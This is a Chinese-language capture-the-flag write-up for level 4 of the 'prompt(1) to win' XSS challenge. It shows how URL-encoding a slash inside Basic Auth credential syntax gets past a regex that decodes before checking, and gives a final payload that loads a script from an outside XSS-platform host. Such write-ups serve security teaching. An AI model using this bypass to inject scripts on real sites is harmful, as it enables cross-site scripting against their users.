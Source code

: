 ## [[prompt(1) to win](http://prompt.ml)] [[Level 4 - Basic Auth](http://prompt.ml/4)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-4-basic-auth/)]

------

## 题目

```javascript
function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
}
```

------------

## 解题报告

### 题目分析

这题要要先满足正则条件，才会把我们的输入放到 `<script>` 标签中执行。

换言之若注入成功，得到的 javascript 代码是这样的 `<script src=input />`

问题是若要成功注入，则 input 必须含有这三个固定前缀中的一个：

- `//prompt.ml/`
- `https://prompt.ml/`
- `http://prompt.ml/`

看起来好像无从下手，但实际上这里可以利用 HTTP 的 Basic Auth 认证语法去绕过。


------------

### Basic Auth 语法

当一个网站需要使用 Basic Auth 认证登陆时，若直接访问这个网址，会弹出类似下面这样的要求输入账密的对话框：

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/01.png)

Basic Auth 认证方式也允许在访问网站 `http://host `时，直接在 URL 中加上账密，格式为：

`http://username:password@host`

这种用法其实现在也很普遍的，例如 git clone url 就可以这样用。

> 若一个网址不需要 Basic Auth 认证，同样也可以使用这种方式访问，只是输入的账密会被无视而已。

------------

### 绕过正则

回到这题，我们可以把这个固定前缀 `prompt.ml/` 构造成 Basic Auth 的 `username` 部分。

但是 `username` 不允许出现 `/` 符号，可以对其进行 URL 编码，即 `%2f` 。

注意到题目的代码中会对 `input` 做 `decodeURIComponent(input)` 处理后再进行正则校验，因此即使 `/` 符号被 URL 编码也可以通过正则校验。


------------

### 利用 XSS 平台

至此，我们可以先把 input 构造成这样：`http://prompt.ml%2f:pwd@` （密码部分随便即可）

我们看到此时题目的输出为：`<script src="http://prompt.ml%2f:pwd@"></script>`

由于我们构造的 Basic Auth 是无效的，所以这个输出等价于：`<script src="http://"></script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/02.png)

这里我们可以利用 XSS 平台构造一个站点执行 `prompt(1)` ，然后把这个站点地址放到 `<script>` 标签即可。


XSS 平台推荐使用 [http://xss.tf](http://xss.tf) ，新建一个项目，自定义代码为 `prompt(1)` ，得到项目地址： `http://xss.tf/RVO` （注意每个人的项目地址都是不同的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/03.png)

利用 XXS 平台的项目地址，构造最终的 payload 为：`http://prompt.ml%2f:pwd@xss.tf/RVO`

> 注：
<br/>　　若要追求最短 payload ，密码部分 `pwd` 是可以不要的，但是 `:` 和 `@` 必须保留。
<br/>　　且根据 [相对协议地址](http://blog.httpwatch.com/2010/02/10/using-protocol-relative-urls-to-switch-between-http-and-https/) 原理，`http:` 也是可以不要的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/04.png)


------------

### 一个 BUG

没错，这题是有 BUG 的，前面构造的这个 payload ，在 Chrome 、Edge、360 浏览器都是无法完成挑战的。

打开浏览器开发者工具的 Console ，发现 XSS 请求被 block 掉了。因为 XSS 请求发不出去，导致无法完成挑战。

最终**只有 Firefox 浏览器可以通过**。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2004%20-%20Basic%20Auth/imgs/05.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
